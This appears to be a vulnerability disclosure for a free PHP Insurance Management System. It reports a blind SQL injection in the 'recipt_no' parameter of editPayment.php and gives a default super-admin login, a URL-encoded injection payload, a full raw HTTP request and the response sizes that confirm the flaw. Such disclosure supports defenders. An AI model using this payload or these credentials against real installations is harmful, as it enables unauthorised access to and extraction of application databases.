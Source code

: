 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Login account: ahmed/12345 (Super Admin account)

Vulnerability File: /insurance/editPayment.php?recipt_no=

Vulnerability location: /insurance/editPayment.php?recipt_no=,recipt_no

[+] Payload: /insurance/editPayment.php?recipt_no=1511989392_84501314%27%20and%20length(database())%20=4%20--+ // Leak place ---> recipt_no

Current database name: lims,length is 4

```sql
GET /insurance/editPayment.php?recipt_no=1511989392_84501314%27%20and%20length(database())%20=4%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 4291
![image](https://user-images.githubusercontent.com/54017627/166145487-53e54e6c-90f2-49a1-b075-195f6e7656c8.png)

![image](https://user-images.githubusercontent.com/54017627/166145515-c2d0e7dd-d246-4911-9ed4-9151d04664ef.png)

When length (database ()) = 4, Content-Length: 5163

![image](https://user-images.githubusercontent.com/54017627/166145476-8610ca4a-93a6-4c5e-8816-96bd8f9a8455.png)

![image](https://user-images.githubusercontent.com/54017627/166145506-df8cad82-9676-4bd0-b253-ea03f43fc155.png)

